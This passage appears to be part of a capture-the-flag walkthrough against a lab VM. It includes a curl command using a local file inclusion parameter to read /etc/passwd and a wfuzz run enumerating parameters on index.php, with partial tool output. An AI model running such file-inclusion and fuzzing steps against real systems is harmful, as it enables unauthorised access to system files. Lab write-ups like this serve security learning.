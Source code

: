 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```
===============================================================

### Browser

/dev directory

![](media/5acaa47bb5fc62fb23b206a1404c8707.png)

/wordpress directory

![](media/9bc6c76b73cf4ada5c444b454f7933ab.png)

/secret.txt file.

![](media/a3e30701855a010f70a95acc0731bb14.png)

As can be seen from the hint above there is a file location.txt on a php page.
From gobuster output, the homepage is index.php.

Browsing to the github repository, it’s indicated that the idea is to use wfuzz
tool.

![](media/c5098089b44f2632e0c08dd71f770612.png)

### wfuzz

Fuzzing index.php with wfuzz.

root\@kali:\~\# wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc
404 http://192.168.20.149/index.php?FUZZ

\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

\* Wfuzz 2.4 - The Web Fuzzer \*

\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

Target: http://192.168.20.149/index.php?FUZZ

Total requests: 949

===================================================================

ID Response Lines Word Chars Payload

===================================================================

000000005: 200 7 L 12 W 136 Ch "03"

000000001: 200 7 L 12 W 136 Ch "\@"

000000002: 200 7 L 12 W 136 Ch "00"

000000003: 200 7 L 12 W 136 Ch "01"

000000004: 200 7 L 12 W 136 Ch "02"

000000011: 200 7 L 12 W 136 Ch "2"

000000012: 200 7 L 12 W 136 Ch "20"

```